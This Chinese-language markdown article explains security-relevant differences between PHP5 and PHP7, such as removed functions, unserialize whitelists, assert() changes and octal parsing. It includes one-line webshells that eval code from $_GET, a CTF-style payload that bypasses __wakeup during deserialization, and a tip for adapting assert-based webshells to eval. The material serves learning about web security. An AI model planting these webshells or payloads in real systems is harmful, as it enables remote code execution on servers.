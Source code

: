 # PHP7 和 PHP5 在安全上的区别

## 函数修改

### preg_replace()不再支持/e修饰符


  ```php
<?php
preg_replace("/.*/e",$_GET["h"],"."); 
?>
  ```

### 新的函数preg_replace_callback

```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
//http://192.168.99.100:32775/test.php?h=phpinfo();
```

### create_function()被废弃

### mysql_*系列全员移除

### unserialize()增加一个可选白名单参数

```PHP
$data = unserialize($serializedObj1 , ["allowed_classes" => true]);
$data2 = unserialize($serializedObj2 , ["allowed_classes" => ["MyClass1", "MyClass2"]]);
```

其实就是一个白名单，如果反序列数据里面的类名不在这个白名单内，就会报错。

### **assert()**默认不在可以执行代码

这就是众多马不能用的罪魁祸首了，太多的马用assert()来执行代码了，这个更新基本就团灭，一般情况下修改成eval即可正常运行了~

提一下，菜刀在实现文件管理器的时候用的恰好也是assert函数，这导致菜刀没办法在PHP7上正常运行。

### dl()函数在PHP-FPM in PHP 7.0.0.中被移除



### `__wakeup` 的修复

PHP 有个 [Bug](https://bugs.php.net/bug.php?id=72663)，触发该漏洞的PHP版本为PHP5小于5.6.25或PHP7小于7.0.10，该漏洞可以简要的概括为：当序列化字符串中表示对象个数的值`大于`真实的属性个数时会跳过 `__wakeup` 函数的执行。

``` 
<?php
class xctf
{    
	public $flag = "111";
    public function __wakeup()    
    {       
    	exit('bad requests');    
    }
} //echo serialize(new xctf());
echo unserialize($_GET['code']);echo "flag{****}";?>
```

使用这个 payload 绕过 `__wakeup` 函数

```
# O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

## 语法修改

### foreach不再改变

php7之前

### ![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lyd4jvyj30ap07rglv.jpg)

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lwktshnj30ka02074b.jpg)

php7

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lzusjr2j30kw020mx7.jpg)

因为数组最后一个元素的 $value 引用在 foreach 循环之后仍会保留，在第二个循环的时候实际上是对之前的指针不断的赋值。php7中通过值遍历时，操作的值为数组的副本，不在对后续操作进行影响

### 8进制字符容错率降低

在php5版本，如果一个八进制字符如果含有无效数字，该无效数字将被静默删节。

```php
<?php
echo octdec( '012999999999999' ) .'\n';
echo octdec( '012' ) . '\n';
if (octdec( '012999999999999' )==octdec( '012' )){
        echo "octdec(octdec( '012999999999999' ))==octdec('012')";
}
?>
```

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58m6yec3gj30fe00yglm.jpg)

但是在php7里面会触发一个解析错误。

这个问题同样在PHP7.0.0以后的版本又被改回去了，只影响这一个版本。

### 十六进制字符串不再被认为是数字

### 移除了 ASP 和 script PHP 标签

![](http://ww1.sinaimg.cn/large/006pWR9aly1g58m9xr2ldj30j604q0so.jpg)

只能使用`<?php ?>`、`<?= ?>`。
此外`<? ?>`需要看是否开启短标签。



### 超大浮点数类型转换截断

将浮点数转换为整数的时候，如果浮点数值太大，导致无法以整数表达的情况下， 在PHP5的版本中，转换会直接将整数截断，并不会引发错误。 在PHP7中，会报错。

### 杂项

`exec(), system() passthru()`函数对 NULL 增加了保护.

`list()`不再能解开字符串`string`变量

`$HTTP_RAW_POST_DATA` 被移除

`__autoload()` 方法被废弃

`parse_str()` 不加第二个参数会直接把字符串导入当前的符号表，如果加了就会转换称一个数组。现在是第二个参数是强行选项了。

统一不同平台下的整型长度

`session_start()` 可以加入一个数组覆盖php.ini的配置